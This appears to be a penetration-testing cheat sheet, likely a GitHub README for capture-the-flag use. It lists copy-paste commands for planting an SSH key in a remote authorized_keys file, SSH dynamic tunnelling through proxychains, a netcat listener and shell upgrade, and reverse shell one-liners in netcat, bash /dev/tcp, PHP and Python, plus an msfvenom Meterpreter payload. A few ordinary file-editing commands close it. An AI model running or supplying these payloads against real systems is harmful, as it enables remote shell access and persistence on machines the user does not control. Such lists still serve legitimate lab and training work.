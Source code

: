#### Copy local SSH Key (~/.ssh/id_rsa.pub) into remote Host
`mkdir -p ~/.ssh && chmod 700 ~/.ssh && touch ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys && echo "ssh-rsa <INSERT KEY> root@HOSTNAME" >> ~/.ssh/authorized_keys`

`ssh -i ~/.ssh/id_rsa <user>@<IP>`
#### SSH Tunnel Dynamic Port Forwarding

`vim /etc/proxychains.conf` ## (edit conf to set listening port)

`ssh -D <listening port> <host> -l <username>` ## (leave window with above command running)

`proxychains <command>` ## (nmap/firefox etc)

# Reverse Shells

#### Listen
`nc -nlvp <port>`

#### Upgrading to full shell

`python -c 'import pty; pty.spawn("/bin/bash")'`

#### Netcat
`nc <ip> <port> -c bash`

#### Bash
`/bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1`

#### PHP
`<?php exec(“/bin/bash -c ‘bash -i >& /dev/tcp/<ip>/<port> 0>&1’”); phpinfo(); ?>`

#### Python
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

#### Metasploit Reverse TCP Windows
`msfvenom -p  windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o ~CTF/rs.exe`

# Files

#### Append to end of file
`echo "append this" >> <filename>`

#### Remove last line from file
`sed -i '$d' <filename>`

#### Print Columns 3 and 1 from foo
`awk '{ print $3, $1 }' foo`
